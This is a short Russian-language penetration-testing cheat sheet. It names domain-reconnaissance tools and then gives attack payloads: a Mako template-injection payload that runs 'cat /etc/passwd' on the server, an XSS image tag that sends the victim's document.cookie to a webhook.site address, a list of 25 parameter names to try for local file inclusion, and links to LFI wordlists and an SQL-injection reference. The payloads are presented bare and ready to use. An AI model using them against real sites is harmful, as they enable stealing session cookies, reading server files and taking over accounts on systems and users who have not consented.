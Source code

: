 # Разведка доменных имен

https://github.com/glebarez/cero

Cero подключается к удалённым хостам и считывает доменные имена из сертификатов, предоставленных во время TLS-рукопожатия.
Сервер не ограничивается только HTTPS и может извлекать сертификаты из любого протокола, работающего через TLS (например, SMTPS) — просто укажите нужные порты для подключения.
Cero позволяет гибко указывать цели, включая доменные имена, IP-адреса и диапазоны CIDR, с полной поддержкой IPv6.

https://github.com/hakluke/hakip2host

hakip2host принимает список IP-адресов через stdin, а затем выполняет серию проверок для возврата связанных доменных имен.

- DNS PTR-поиски
- Альтернативные имена субъектов (SAN) в SSL-сертификатах
- Общие имена (CN) в SSL-сертификатах

# SSTI (Server-Side Template Injection) в Python

##  Mako Templates
### Проверка уязвимости
${7*7}  # → 49

### Чтение файла
<% import os %>${os.popen('cat /etc/passwd').read()}

# XSS Payload
[<]img src=x onerror="this.src='https://webhook.site/b8ce3f5c-707d-406f-a8df-0dd7928bca42?c='+document.cookie;"[>]

# LFI 
## Top 25 Local File Inclusion (LFI) Parameters

?cat={payload}

?dir={payload}

?action={payload}

?board={payload}

?date={payload}

?detail={payload}

?file={payload}

?download={payload}

?path={payload}

?folder={payload}

?prefix={payload}

?include={payload}

?page={payload}

?inc={payload}

?locate={payload}

?show={payload}

?doc={payload}

?site={payload}

?type={payload}

?view={payload}

?content={payload}

?document={payload}

?layout={payload}

?mod={payload}

?conf={payload}

##  LFI Wordlists
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI

https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
# SQLi
https://www.sqlinjection.net/stacked-queries/


